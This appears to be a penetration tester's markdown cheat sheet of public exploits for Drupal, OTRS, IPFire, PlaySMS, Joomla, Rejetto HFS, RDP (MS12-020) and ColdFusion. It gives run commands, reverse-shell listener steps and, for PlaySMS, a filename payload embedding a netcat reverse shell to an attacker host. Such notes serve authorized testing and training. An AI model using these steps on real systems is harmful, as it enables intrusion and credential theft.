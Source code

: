 # Comments on Exploits
Author: @davimoreno

## [CVE-2018-7600](https://nvd.nist.gov/vuln/detail/CVE-2018-7600)
- **Source**: https://www.exploit-db.com/exploits/44449
- **Vulnerability**: Remote Command Execution
- **Software**: Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1
- **Tested on**: 
- **Comments**:
	- Also known as Drupalgeddon2
	- The script will return a webshell that we can interact.
	- Execute ruby script
```linux-cmd
./CVE-2018-7600.rb http://RHOST:RPORT/
```
## [CVE-2017-16921](https://nvd.nist.gov/vuln/detail/CVE-2017-16921)
- **Source**:
	- Explanation: https://www.exploit-db.com/exploits/43853
	- Code: https://www.exploit-db.com/exploits/49794
- **Vulnerability**: Authenticated Remote Command Execution
- **Software**: OTRS 6.0.x up to and including 6.0.1, OTRS 5.0.x up to and including 5.0.24, and OTRS 4.0.x up to and including 4.0.26
- **Tested on**: 
- **Comments**:
	- Just edit the exploit parameters and open a listener before execution.
## [CVE-2017-9757](https://nvd.nist.gov/vuln/detail/CVE-2017-9757)
- **Source**: https://github.com/davimoreno/ipfire_rce/blob/main/ipfire_rce.sh
- **Vulnerability**: Authenticated Remote Command Execution
- **Software**:  < IPFire 2.19 with core update 110
- **Tested on**: 
- **Comments**:
	- Edit the parameters inside the exploit, including IP/Port to listen, and IPFire credentials.
	- Open listener to receive the reverse shell.
	- Edit the `PAYLOAD` in the exploit if you want to execute a different command. The payload needs to be URL encoded.
## [CVE-2017-9080](https://nvd.nist.gov/vuln/detail/CVE-2017-9080)
- **Source**: 
- **Vulnerability**: Authenticated Remote Command Execution
- **Software**: PlaySMS 1.4
- **Tested on**: 
- **Comments**:
	1. Find playsms folder in target application (e.g. http://example.com/playsms)
	2. Login with valid credentials in http://example.com/playsms
	3. Create in the attacker machine a malicious file. E.g.
		- `touch "asdasd.<?php exec('nc LHOST LPORT -e \$(which bash)&'); ?>.png"`
	4. Open listener in LPORT.
	5. Upload the malicious file in http://example.com/playsms/index.php?app=main&inc=feature_sendfromfile&op=list to get the reverse shell
## [CVE-2017-8917](https://nvd.nist.gov/vuln/detail/CVE-2017-8917)
- **Source**: https://github.com/davimoreno/joomla_3-7-0_sqli
- **Vulnerability**: SQLi
- **Software**: Joomla! 3.7.x before 3.7.1
- **Tested on**:
- **Comments**:
	- The script dumps the first user's username, email, and password from the Joomla database.
## [CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287)
- **Source**: https://www.exploit-db.com/exploits/39161
- **Vulnerability**: Remote Command Execution
- **Software**: Rejetto HTTP File Server (HFS) 2.3.x
- **Tested on**: Windows Server 2008 , Windows 8, Windows 7 
- **Comments**:
	- The exploit tries to download "nc.exe" from the attacker machine, and then use it to execute a reverse shell. We can edit the command to be executed if needed (e.g. Windows Defender blocking "nc.exe"). 
	- Need to open webserver at port 80 inside a directory with "nc.exe" inside it. This executable can be found in
		- Kali: `/usr/share/windows-binaries/`
		- https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe
	- Edit the exploit `ip_addr` and `local_port` variables to match the local IP address and port to listen on.
	- Open listener at the port indicated by `local_port`.
	- Execute the exploit twice with the command
```linux-cmd
python2 CVE-2014-6287.py TARGET_IP TARGET_PORT
```
## [CVE-2012-0002](https://nvd.nist.gov/vuln/detail/CVE-2012-0002)
- **Source**: https://github.com/d3fudd/MS12-020_Esteemaudit
- **Vulnerability**: Remote Command Execution
- **Software**: 
- **Tested on**: Windows Server 2003 SP1, SP2, and Windows XP SP0, SP1, SP3.
- **Comments**:
	- This is a vulnerability on the implementation of the RDP protocol in some windows systems.
	- This vulnerability is also known as Esteemaudit.
	- Just follow the steps in the source link.

## [CVE-2012-0002](https://nvd.nist.gov/vuln/detail/CVE-2012-0002)
- **Source**: https://github.com/d3fudd/MS12-020_Esteemaudit
- **Vulnerability**: Remote Command Execution
- **Software**: 
- **Tested on**: Windows Server 2003 SP1, SP2, and Windows XP SP0, SP1, SP3.
- **Comments**:
	- This is a vulnerability on the implementation of the RDP protocol in some windows systems.
	- This vulnerability is also known as Esteemaudit.
	- Just follow the steps in the source link.

## [CVE-2009-2265](https://nvd.nist.gov/vuln/detail/CVE-2009-2265)
 - **Source**: https://www.exploit-db.com/exploits/50057
- **Vulnerability**: Remote Command Execution
- **Software**: Adobe ColdFusion 8
- **Tested on**: 
- **Comments**:
	- Just edit the exploit parameters related with LHOST,LPORT,RHOST,RPORT.
	- This vulnerability is related with the version of FCKeditor used by ColdFusion8.
## [CVE-XXXX-XXXX](https://nvd.nist.gov/vuln/detail/CVE-2014-6287)
- **Source**: 
- **Vulnerability**: 
- **Software**: 
- **Tested on**: 
- **Comments**:
